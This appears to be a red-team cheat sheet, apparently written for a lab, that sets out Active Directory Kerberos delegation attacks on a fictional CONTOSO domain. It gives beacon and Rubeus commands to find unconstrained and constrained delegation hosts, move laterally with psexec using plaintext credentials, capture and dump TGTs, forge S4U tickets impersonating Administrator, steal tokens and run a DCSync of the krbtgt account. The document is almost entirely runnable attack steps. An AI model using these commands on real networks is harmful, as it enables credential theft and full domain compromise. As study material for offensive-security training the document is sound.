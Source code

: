 
##### Unconstrained Delegation
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369 (userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
```

Stop Rubeus
```powershell
jobs
jobkill 0
```

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```

##### Constrained Delegation
Search for computers with Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Check the UAC value to see if protocol transitioning is possible 
```powershell
ldapsearch (&(samAccountType=805306369)(samaccountname=LON-WS-1$)) --attributes userAccountControl
```

We want true
```powershell
[Convert]::ToBoolean(16781312 -band 16777216)
```

Within SYSTEM level beacon on Constrained Delegation host, dump TGT for the computer account
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7  /service:krbtgt /nowrap
```

Perform the S4U abuse to obtain a usable service ticket for **a service listed in the `msDS-AllowedToDelegateTo`** value, impersonating the default domain admin. `/altservice` too
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /msdsspn:ldap/lon-dc-1 /impersonateuser:Administrator /nowrap /ticket:

----------------------------------/altservice------------------------------------

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /impersonateuser:Administrator /nowrap /ticket:
```

 Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

 Impersonate the process and verify
```powershell
steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync CONTOSO.COM CONTOSO\krbtgt
```